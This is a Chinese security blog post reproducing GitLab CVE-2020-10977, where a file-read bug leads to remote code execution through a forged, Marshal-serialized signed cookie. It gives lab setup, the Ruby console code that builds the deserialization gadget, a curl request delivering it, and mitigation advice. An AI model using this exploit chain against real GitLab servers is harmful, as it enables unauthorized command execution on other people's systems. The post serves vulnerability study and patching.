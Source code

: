 ```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2020-10977 任意文件读取漏洞导致的RCE
toc: true
wrench: 2022-05-09
permalink: /about/GitLab-CVE-2020-10977-RCE/
author: Bin4xin
desc: 「Gitlab」
---
```


## 概述

> GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。
>
> GitLab是由GitLabInc.开发
>
> 使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

### 如何查看Gitlab Web版本

```
https://git-lab-domain.com/help
```

如果没有相关版本，那么需要先登录

![2022-04-29-11.40.26.png](https://image.yjs2635.xyz/images/2022/04/29/2022-04-29-11.40.26.png)

如果您是运维人员，可以输入以下命令查看：

```bash
$ cat /opt/gitlab/embedded/service/gitlab-rails/VERSION
```

### 零、概述

由[GitLab CVE-2020-10977 任意文件读取漏洞](/about/GitLab-CVE-2020-10977/)导致的RCE

### 0x01、影响版本

暂未可知；

通过作者在Hackerone的报告显示测试环境是：

```
GitLab information
Version: 12.8.7-ee
Revision: 2643fd87200
```

并且通过Gitlab官方的反馈是：

- Your finding has been patched in GitLab version 12.9.1

或许结合漏洞来源，一个可参考的说法是：

> GitLab GitLab CE/EE >=8.5 and < 12.9
>
> GitLab GitLab CE >=8.5，< 12.9

### 0x02、环境搭建

- 服务/受害端

```bash
$ docker run -it gitlab/gitlab-ee:{version.label} bash
```

或者yum安装；我这里的本地环境是选择与报告者 [@vakzz](https://hackerone.com/reports/827052) 一样的版本

- GitLab information
  - Version: 12.8.7-ee
  - Revision: 2643fd87200
  - Directory: /opt/gitlab/embedded/service/gitlab-rails
  - DB Adapter: PostgreSQL

```bash
wget --content-disposition https://packages.gitlab.com/gitlab/gitlab-ee/packages/scientific/7/gitlab-ee-12.8.7-ee.0.el7.x86_64.rpm/download.rpm
yum -y install ./gitlab......12_8.7.rpm
```

<div class="content">
<p>
<a href="https://packages.gitlab.com/gitlab/gitlab-ee/packages/scientific/7/gitlab-ee-12.8.7-ee.0.el7.x86_64.rpm/download.rpm" class="btn-primary btn" target="blank">
点击以下载<span class="DocsMarkdown--link-external-icon">
<svg fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" viewBox="0 0 16 16" role="img" aria-labelledby="title-9637423397128071" xmlns="http://www.w3.org/2000/svg"><title id="title-9637423397128071">External link icon</title><path d="M6.75,1.75h-5v12.5h12.5v-5m0,-4v-3.5h-3.5M8,8l5.5-5.5"></path></svg>
</span></a>
</p>
</div>

> *TIPS:*
> 
> 1.`gitlab-ctl restart`后访问Gitlab返回502，再运行`gitlab-ctl reconfigure`即可。
>
> 2.`gitlab-ctl reconfigure`如果报错`No such file or directory`，运行以下命令

```bash
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-kernel.sem.conf
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-kernel.shmall.conf
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-net.core.somaxconn.conf
```

### 0x03、复现

- 攻击端：

先pull镜像，方便用`console`生成反序列化Cookie

```bash
docker pull gitlab/gitlab-ee:12.8.1-ee.0
```

进入console
```bash
$ /opt/gitlab/embedded/bin/runsvdir-start &
$ gitlab-ctl reconfigure
$ vi /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
# 替换secret_key_base为服务/受害端的secret_key_base
$ gitlab-rails console
```

> 需要注意的是，修改配置yml文件后，就不需要reconfigure了，不然生成新的secret_key_base会覆盖修改的。

- `gitlab-rails console` 攻击代码

```console
request = ActionDispatch::Request.new(Rails.application.env_config)
```

```console
request.env["action_dispatch.cookies_serializer"] = :marshal
```

```console
cookies = request.cookie_jar
```

```console
erb = ERB.new("<%= `echo from CVE-2020-10977 > /tmp/flags` %>")
```

```console
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
```

```console
cookies.signed[:cookie] = depr
```

```console
puts cookies[:cookie]
```

访问：

```bash
$ curl -k -vvv 'https://git-lab-domain.com/users/sign_in' -b "experimentation_subject_id={cookies[:cookie]}"
```

### 一、思考

### 1x01、代码分析

```ruby
# /opt/gitlab/embedded/service/gitlab-rails/config/initializers/cookies_serializer.rb
# Be sure to restart your server when you modify this file.

Rails.application.config.action_dispatch.use_cookies_with_metadata = false
Rails.application.config.action_dispatch.cookies_serializer = :hybrid
```

作者提到`cookies_serializer.rb`中默认的`cookies_serializer = :hybrid`导致了RCE；

> 多说一句，插入Cookie这个利用方式和Shiro反序列化WEB利用方式有点像(o_O)

### 二、修复

### 2x01、 关闭注册功能

大部分问题都是通过匿名用户注册后，在仓库内操作导致的问题，故：取消游客的注册能够减少80%的问题

以Admin用户登录后，进入：

`Admin Area` -> `Setting` -> `Sign-up restrictions`

确保`Sign-up Restrictions` 下 `Sign-up enabled`为未勾选状态。

### 2x02、更新版本

- 但取消注册后，或许仍然有一些不需要授权的漏洞，所以尽可能保持软件的版本与上游版本保持一致；

### 三、参考

- [Hacker one- Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052){:target="_blank"}
- [CVE-2020-10977 Gitlab任意文件读取导致远程命令执行](https://github.com/EdgeSecurityTeam/Vulnerability/blob/main/CVE-2020-10977%20Gitlab%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md){:target="_blank"}
- [GitLab任意文件读取漏洞复现(CVE-2020-10977)](https://zhuanlan.zhihu.com/p/340584527/){:target="_blank"}
- [GitLab任意文件读取漏洞CVE-2020-10977](https://www.freebuf.com/vuls/235982.html){:target="_blank"}
- [HackTheBox — Laboratory Writeup](https://coldfusionx.github.io/posts/LaboratoryHTB/){:target="_blank"}
- [CentOS 7手把手教你搭建gitlab环境](https://juejin.cn/post/6871249593749733383){:target="_blank"}
- [gitlab注销注册功能](https://blog.csdn.net/weixin_43606948/article/details/85222499){:target="_blank"}
